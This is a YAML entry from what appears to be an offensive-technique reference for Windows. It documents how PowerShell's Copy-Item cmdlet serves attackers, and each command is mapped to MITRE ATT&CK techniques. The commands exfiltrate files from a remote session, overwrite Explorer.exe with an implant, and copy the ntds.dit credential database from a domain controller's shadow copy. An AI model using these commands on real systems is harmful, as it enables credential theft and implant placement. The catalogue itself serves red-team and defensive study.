 ```yaml
---
Name: Copy-Item
Description: Copies an item from one location to another
Updated: 2023-07-01
Toolsets:
  - Builtin
  - PSSession
Commands:
  - Command: 'Copy-Item -Path C:\boot.ini -Destination . -FromSession $ps'
    Description: Copy file from PSSession
    Usecases:
      - Exfiltrate data
    Function: Data
    Comments:
      - 'Create PSSession `$ps` using [New-PSSession](../New-PSSession/)'
      - 'PowerShell Module: `Microsoft.PowerShell.Management`'
    MitreAttack:
      - T1021.006
  - Command: 'Copy-Item -Path C:\beacon.exe -Destination C:\Windows\System32\Explorer.exe -ToSession $ps'
    Description: Copy file to PSSession
    Usecases:
      - Copy implant
    Function: Data
    Comments:
      - 'Create PSSession `$ps` using [New-PSSession](../New-PSSession/)'
      - 'PowerShell Module: `Microsoft.PowerShell.Management`'
    MitreAttack:
      - T1021.006
      - T1570
  - Command: 'Copy-Item -Path \\DC01.ad.bitsadmin.com\C$\@GMT-2023.06.01-19.34.01\Windows\NTDS\ntds.dit -Destination C:\Tmp\'
    Description: Copy from volume shadow copy
    Usecases:
      - 'Exfiltrate `ntds.dit` from shadow copy over SMB'
    Function: Data
    Comments:
      - 'Create PSSession `$ps` using [New-PSSession](../New-PSSession/)'
      - Example of performing such copy at the blog in the references
      - 'PowerShell Module: `Microsoft.PowerShell.Management`'
    MitreAttack:
      - T1570
      - T1021.002
Resources:
  - https://blog.bitsadmin.com/blog/extracting-credentials-from-remote-windows-system
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```

